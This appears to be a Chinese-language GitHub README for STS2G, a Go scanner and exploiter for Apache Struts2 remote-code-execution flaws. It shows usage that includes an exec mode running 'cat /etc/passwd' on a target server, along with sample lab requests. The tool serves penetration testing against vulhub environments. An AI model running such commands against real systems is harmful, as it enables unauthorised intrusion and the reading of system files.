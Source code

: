 # STS2G
Struts2漏洞测试-Golang版，部分POC参考了众多优秀项目如[Struts2-Scan](https://github.com/HatBoy/Struts2-Scan)，漏洞测试环境采用[vulhub](https://github.com/vulhub/vulhub/tree/master/struts2).  
目前两种模式`scan`和`exec`支持：  
*struts2-001*  、*struts2-005*  、*struts2-007*  、*struts2-008*  、*struts2-009*  、*struts2-012*  、*struts2-013*  、*struts2-015*  、*struts2-016*  、*struts2-045*  、*struts2-046*  、*struts2-048*  、*struts2-053*  、*struts2-057*  
## 使用方法  
```
...\STS2G-master>go build

D:\Struts2-Test>ST2SG.exe -h
NAME:
   ST2SG - Struts2 Scanner Written in Golang

USAGE:
   ST2SG --url http://xxxxxxx.com/test.action --vn 15 --mode scan

AUTHOR:
   x51

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --mode value  Specify work mode
   --vn value    Vulnerability number (default: 0)
   --url value   Set target url
   --cmd value   Exec command(Only works on mode exec.)
   --data value  Specific vulnerability packets
   --help, -h    show help (default: false)
```
![avatar](./Example.png)  
### 默认扫描模式(不建议):  
```ST2SG --url http://xxx.com/index.action --mode scan```  
### 指定漏洞扫描模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode scan```  
### 命令执行模式：  
```ST2SG --url http://xxx.com/index.action --vn 15 --mode exec --cmd "cat /etc/passwd"```  
### 自定义参数：  
*基于以上方法，分两种情况，自定义GET参数名，和自定义POST数据包内容，POST方式需要在数据包中指定一下要测试的参数并用fuckit标记出来.*  
#### POST  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 007 --data "name=fuckit&pass=qwer"```  
以Struts2-001为例，登录请求包如下：  
```
POST /login.action HTTP/1.1
Host: 192.168.123.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.123.128:8080
Connection: close
Referer: http://192.168.123.128:8080/
Cookie: JSESSIONID=51B574E47166823D7622CA583D71954E
Upgrade-Insecure-Requests: 1

username=aaa&password=bbb
```  
![avatar](./s001.png)  
#### GET  
```ST2SG --mode scan --url http://xxx.com/index.action --vn 009 --data "name"```  
以Struts2-009为例，GET请求如下：  
```
http://192.168.123.128:8080/ajax/example5.action?age=1&name=aaa
```  
![avatar](./s009.png)  
## 补充  
1、强烈建议使用vn参数；  
2、自定义POC只需在utils中修改/增加为自己的即可；  
3、部分漏洞支持获取webpath，功能函数已经在各自漏洞模块中实现（func GetWebPath），可自行调用；  
